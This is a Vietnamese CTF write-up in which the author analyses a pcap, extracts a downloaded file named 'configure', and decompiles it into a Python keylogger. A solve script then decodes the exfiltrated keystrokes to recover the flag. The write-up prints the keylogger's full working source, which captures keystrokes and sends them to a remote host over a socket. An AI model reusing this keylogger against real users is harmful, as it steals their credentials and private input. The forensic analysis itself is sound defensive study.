

# Mô tả

Bob wants to download a game, but he accidentally downloads a malicious file. Let's see what happened

# Phân tích

Bài cho ta một file pcap, bài nói về việc bob đã tải một file malware về máy nên thử vào `export objects\HTTP` thấy có file `application/octet-stream` là configure thì xuất ra rồi đưa lên [virustotal](https://www.virustotal.com/gui/file/52fdb91bcd58a3a41838c47d1064595897c3cfcb796c5b3201bd15566c3b442c/detection) biết rằng `configure` là một keylogger

Một các khác để biết rằng file `configure` không bình thường đó là `follow tcp stream` trong wireshark thì tại tcp stream 2 máy của người dùng `192.168.127.131` có request tải file configure nhưng lại là từ host `10.2.32.72:5349` rất đáng nghi bởi đây không phải là tên miền bình thường

```http
GET /configure HTTP/1.1
User-Agent: User-Agent: Mozilla/5.0 (compatible, MSIE 11, Windows NT 6.3; Trident/7.0;  rv:11.0) like Gecko
Accept: image/gif, image/jpeg, image/pjpeg, image/pjpeg, application/x-shockwave-flash, application/x-ms-application, application/x-ms-xbap, application/vnd.ms-xpsdocument, application/xaml+xml, */*
Accept-Encoding: identity
Host: 10.2.32.72:5349
Connection: Keep-Alive
Accept-Language: en-us


HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Fri, 28 Oct 2022 10:29:56 GMT
Content-type: application/octet-stream
Content-Length: 7748568
Last-Modified: Fri, 28 Oct 2022 08:28:04 GMT
```


Thông thường một keylogger sẽ phải truyền dữ liệu mà người dùng đã nhập qua đâu đó. Vậy nên ta sẽ phải decompile các file ELF này để biết việc truyền dữ liệu hoạt động như thế nào 

Đưa vào DiE thì ta biết `configure` được viết bằng ngôn ngữ python, để decompile một chương trình python ta có thể sử dụng [pyinstxtractor.py](https://raw.githubusercontent.com/extremecoders-re/pyinstxtractor/refs/heads/master/pyinstxtractor.py) để đưa chương trình về dạng `.pyc` và sau đó có thể đưa nó trở về python byte code và cuối cùng là code .py gốc, ta có thể decompile file `configure.pyc` bằng uncompyle6 hoặc đưa [lên mạng](https://pylingual.io/) 

```python
from pynput.keyboard import Listener
import socket
from Crypto.Util.number import bytes_to_long, long_to_bytes
import base64

class Keylogger:
    IP_ADDRESS = '10.2.32.72'
    PORT = 45093

    def __init__(self):
        self.log = ''
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    def on_press(self, key):
        if str(key) == 'Key.enter':
            print('Sending log report...')
            self.send_report()
        elif len(str(key)) == 3:
            self.log += str(key)[1] + ' '
        else:
            self.log += str(key) + ' '

    def send_report(self):
        self.socket.send(str(len(bin(bytes_to_long(self.log.encode()))) - 2).encode())
        key = int(base64.b64decode(self.socket.recv(9192)).decode())
        self.log = long_to_bytes(bytes_to_long(self.log.encode()) ^ key)
        self.socket.send(self.log)
        self.log = ''

    def start(self):
        self.socket.connect((self.IP_ADDRESS, self.PORT))
        with Listener(on_press=self.on_press) as listener:
            listener.join()
if __name__ == '__main__':
    keylogger = Keylogger()
    keylogger.start()
```

Đây là một keylogger đơn giản trao đổi dữ liệu giữa người dùng và `10.2.32.72:45093` và chú ý đến hàm `send_report` sẽ là cách chương trình mã hoá dữ liệu để gửi đi

```python
def send_report(self):
        self.socket.send(str(len(bin(bytes_to_long(self.log.encode()))) - 2).encode())
        key = int(base64.b64decode(self.socket.recv(9192)).decode())
        self.log = long_to_bytes(bytes_to_long(self.log.encode()) ^ key)
        self.socket.send(self.log)
        self.log = ''
```

Nói chung là `configure` sẽ nhận các thao tác nhập từ bàn phím của người dùng, lưu vào chuỗi `self.log` và đến khi nhấn `ENTER` thì:

- Đầu tiên sẽ gửi độ dài chuỗi vừa nhập đến địa chỉ của hacker
- Sau đó hacker sẽ gửi một số int được mã hoá b64 cho `configure` 
- Chương trình xor chuỗi vừa được nhập với số int rồi gửi lại cho hacker

Biết là chương trình sẽ truyền dữ liệu qua mạng, ta tiếp tục tìm kiếm trong wireshark những packet được gửi từ `10.2.32.72:45093` đến máy người dùng `192.168.127.131` có chứa dữ liệu b64 

Tại stream 11 ta thấy điều đó và chắc chắn rằng đây chính là đoạn trao đổi dữ liệu qua `configure` 



Phần màu xanh là số nguyên được mã hoá b64 hacker gửi đến, phần màu đỏ (Ở dưới phần màu xanh bởi vì dữ liệu nhập chỉ được gửi sau khi đã gửi mã b64) vì dữ liệu người dùng bị xor nên khi copy để phải đổi về lại chế độ raw rồi sau đó hex decode ra lại

# Flag

Trong stream11 có khá nhiều dữ liệu, khi làm tôi kéo xuống cuối và chọn 2 dữ liệu cuối cùng vì ở cuối thường sẽ là nơi chứa flag và bài này nó đúng thật

Tạo một script decode

```python
from Crypto.Util.number import bytes_to_long, long_to_bytes
import base64

def decrypt_report(encrypted_bytes, key_b64):
    # Convert encrypted_bytes from hex-encoded ASCII bytes to real bytes
    encrypted_bytes = bytes.fromhex(encrypted_bytes.decode())
    
    # Decode base64 key to int
    key = int(base64.b64decode(key_b64).decode())

    # XOR the encrypted bytes (converted to long) with key
    decrypted_long = bytes_to_long(encrypted_bytes) ^ key

    # Convert back to bytes
    decrypted_bytes = long_to_bytes(decrypted_long)

    return decrypted_bytes.decode(errors="replace")  # Use "replace" to avoid decode errors

# Example usage
if __name__ == "__main__":
    encrypted_bytes = b'218c1d0f93ca418d6e625b61246acd86b79d0d256ed87f1c58499c63ed0f9be794132fce56bd2b2855a679ac2d4bd9191a7592a1a0a6783ac57bd352f98f93c4e22dd8d51533fb025f0bb832dd7b086a18cdd0ac088f20c315b7c54e1e9bc7be4985a6c43d397113231a0b84277d80be82c102d3c627af736ea455573b02621702fab9e20f9ff03c9c6e06a90849b44814ff25e1fbdaa182dbe9649df9559972dd24c79c6a79a424706c8cc2d099514cad23ba4a694314a952e5a7857e3dcfbe1e3753d6e247808605b2fbcd767cc38d674f6db5055b2a8a299b5855c32223676baf6a7a65ba88a78ffdf321b2d69f0d3c3c4eaa27f1184ad6f2b306438b7c0b9f02ec5d86524bcfcfe03ac06254215f2162684b0828f203e7d5cb54128448f4ca11c53704bfeabec62ab2003bbeb91a84b90552f66f3c92c75de94eb18da67ad8f347f17abc60a74850d169312b8bd494e290ea3ab410517fc21ceab5844bcb47824442bcdc29b5a652a8b67c18cb45ff71009b20d7b8fe957e0144482a30e73fc3e78a8919c33e552f95dda19cade18c3beb4824e9c9453bddd508b407bb70cef8f4ecc3924b0b90933c0d29e062cabbebf6575b70df50adebdfa64511643c776b6efc8a6ef3679fd3198ee2882688bf9273cdbb8bc999e68fd130098126deb0fefe875792a4b95db3c51c4ed17723634c3989bce7fb6f6780aac38d4406c76c15cf551f9e9504115b1aa2b84363a6b700fb96ee7fe5808cb0c5892e0a1822c6183d1f2a5fa7b372981bf4f1878635d846f6727266b0a13d0a6c'
    key_b64 = 'MzQxNjQyMDQyODMyNDIyNTUwNTM1MTcxNTUxMzkwODYxMjU4NDU0MjM5NDM1Mjk4MDE0OTkyNTI2NDc0MzgwNzUwNzU4MjQ1NzkwMjEyODYzNTkyMTgwMzMzNTI0NDAwNjkwOTEwNTUzODcyMjg5NTI5Mjk2MDU1Mzg5OTYzNDY3OTI1NDEyODc5MDM4NDM0MDI1ODgxNjc3MjcyMDk4MzUzNTg5NzU5Njk2NzU3MjU5NjM2NTUwNDkyNzE0ODk4Nzg4NjUxNzIyMzgyMTY2NjQwNTUwODI5NTU3MTMwNzU1MTY5NDYwNDYzMzU2NDY1NTk5ODY4NjU1NTUwMjEyOTA5MjIwMzgzMTkwODg5ODQ3NzE0NDI0NzY5OTU5MDUxNTIwMzc1MDk3NTE4MTYxNzI3ODQ2MjcwNTgyMDY1ODkzMzgwNzA1MTIxNDk0ODY1MzQyMjU3MTQzOTg5NjcwMDk5MTgwNTUyOTU0NjgzNjI2NjUzNDExNjY5NTgyNjMxMTU3OTE0ODUwNDUzMzg4MjAxNzY5Njk4NjMyNjMwMTkyOTY3MTU0NTg3ODc4MjY2MTkxODczNDk5OTM2NjM3MjAzMzI4NTc3NzU1MTk1ODI5NzQ0OTIzMTYzNDkxNTgyMjMzODY1Mzg3NTg4NzE1NzkyMjU4MjE5NjgxOTc5MDM1NDU2Mzk2ODMzNTEzMjUyOTEyODU0NDg4MjgzOTA1MjU1ODEyOTk0ODAwMTY1NDUzMjcyNTk1MTIwOTgzNjk3NTE4MjE3NjkxODE0ODM1NzYzNjY0NzQyNjUzMzU3MTM2Njc0NTg2NjY1MTgwNjEzMDc0MjMzMzY2MDg2NzM4NzU0OTkzOTg3MjYzMzY3MzU0MjI4NTEzMjMxMjAxMzc0MDUxNDYxNDE0ODI1NjAzMTMzODgxNDE5Njk0ODk2MjQ1Njg0MzYxOTMzMDQ3NjUzNTk3NTAwOTkxNzY1MjA3Njk4MDgxNTkxOTUyODQzMDQxOTk3NDUxMDYzNTY3NDk3MzY3MDQ0NDUwMzQ1MDc1NjI3MTc2NDUwMTc1NDQzMjI4NzAzNjc3ODcwNjg5MTY4NjE5NzY5NTI2Mjc2MTA2MzI3MDA3NzA2NzUzOTc2NTAzNzM1MzkzNDg5MjgyMDM0ODQ2NjMzNDQwMjk2ODYyOTgyNjYxMDkyMjk5OTAxMDQyNDgzMTkzNTY4ODcxODc4NjcwMDIwNDgzMTc1ODU4OTM2MjY0NTg1OTU4Njk4OTM3Mzk5NTg4NTMwNzM2ODQzNjg2MzUxMjI5NjAyNTQ1MDg2ODgxNzI3MTIyMTMwNzA1NTUzNjE4MTk3ODU2NjcyMjQzNzEwNzg4Mjk5MDc5NTAxMTkyNTA0Mzc2NjQ3NzcwMjIzNDYzOTAxMDU2OTU5NTUwMTg5MTA5MjgwODM5MzMzMzU1MzUwNDQ4MjI1NDY5MTgxMTU4ODE1MTgwODQxNzQ5MTk0NTU4Nzc2NjY3NzY1MTI1OTc1NTI4NDg3MjA2MDk2ODE3NzkyOTkyNDY3MTY5NjM1OTUxNzI1OTY4NzM1Njk0NTk2OTM2ODM2OTAyMzY2ODE1Nzc4Nzg2MzMxMzc0MjA2NDI5MzAzNTc2MjQwMjQ2MjYwOTc5ODU1Njk2NTAzNzU3OTIxNzcwOTM1NzUwNDcwMjg3Mjg5NjY0Mzk3NTQ5ODkxMzM0NzAyMDM1MjUxODAwNDgyMzM2Nzg4MzYyNzExNjIwNTMxNzM4MzUwNTQxMjIyNzgwNTE1OTQ1MDYxNDk3NjQ0NDU3NzgwNTMyMjI4MTM0OTYyNzgzODYyMTExNzU3MjgwODI2OA=='

    plaintext = decrypt_report(encrypted_bytes, key_b64)
    print("Decrypted log:", plaintext)
```

Chạy solve.py sẽ ra

```
Decrypted log: e c h o Key.space = - Key.backspace Key.backspace - n Key.space Key.shift " Key.shift F l a g Key.shift { N e t Key.shift : a b 6 Key.backspace Key.backspace Key.backspace Key.backspace Key.shift L a b 6 Key.shift _ B 3 r Key.shift Key.shift E Key.shift U Key.left Key.left c Key.backspace Key.left c 4 Key.right Key.right f Key.right l Key.shift _ w 1 Key.shift T h Key.shift _ k 3 y g g Key.left Key.left Key.shift L 0 Key.right Key.right 3 r Key.shift ! ! Key.shift ! ! Key.backspace Key.shift ! Key.shift } " Key.space Key.shift Key.shift > Key.space f l a g . t x t
```

Bám theo các hành động người dùng đã nhập để lấy flag chính xác

`Flag{NetLab6_B3c4rEfUl_w1Th_k3yL0gg3r!!!!}`